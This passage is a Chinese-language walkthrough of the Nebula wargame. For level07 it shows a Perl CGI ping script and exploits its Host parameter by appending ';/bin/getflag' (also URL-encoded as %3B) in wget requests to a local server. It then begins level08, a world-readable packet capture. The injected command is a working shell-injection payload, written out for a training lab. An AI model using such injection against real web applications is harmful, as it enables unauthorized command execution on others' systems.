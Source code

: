 ```perl
  
}

# check if Host set. if not, display normal page, etc
ping(param("Host"));
```


flag07家目录下有一个thttpf.conf（perl服务器配置）和index.cgi（就是这个脚本）。因此需要执行它。根据程序逻辑，传入的`Host`参数为ping的地址。漏洞利用思路很简单，传入地址后截断，并执行getflag的代码。

那就开始行动：首先需要看看perl的服务器跑起来没

```bash
ps aux | grep thttpd
```

如果不幸没跑起来，那就用nebula登陆，之后：

```bash
sudo -s
su flag07
/usr/sbin/thttpd -C /home/flag07/thttpf.conf
```

这样先把自己变成root，然后变成flag07，然后把服务器跑起来。当然记得切回level07继续做题。

之后`cat thttp.conf`发现端口是7007，需要打开界面测试了。因为服务器还没配置网络，无法从远程访问，本着能不配置就不配置的的原则（参见开篇），就用curl或者wget吧（因为这个Linux没有图形界面，因此没有浏览器）。很不幸，curl没有，那就wget吧~

首先测试一下界面：

```bash
wget http://localhost:7007/index.cgi?Host=127.0.0.1 -O /home/level07/cgi.html
```

发现界面OK，之后插入做坏事的代码：

```bash
wget http://localhost:7007/index.cgi?Host=127.0.0.1;/bin/getflag -O /home/level07/cgi.html
```

很不幸，报错。根据错误内容发现参数没有解析完，因此对参数用escape编码：

```bash
wget http://localhost:7007/index.cgi?Host=127.0.0.1%3B/bin/getflag -O /home/level07/cgi.html
```

Done！

# Nebula level08 #
> World readable files strike again. Check what that user was up to, and use it to log into flag08 account.
> 
> 又一个全世界可读文件攻击。看看用户想干嘛，然后进入flag08账户。

题目直接看懵了，什么叫world readable？

进入level08账户，切换到flag08目录，发现一个.pcap文件，恍然大悟，原来world readable是这个意思……所以说音乐啊美术啊也是world readable啊~好一个形容词。
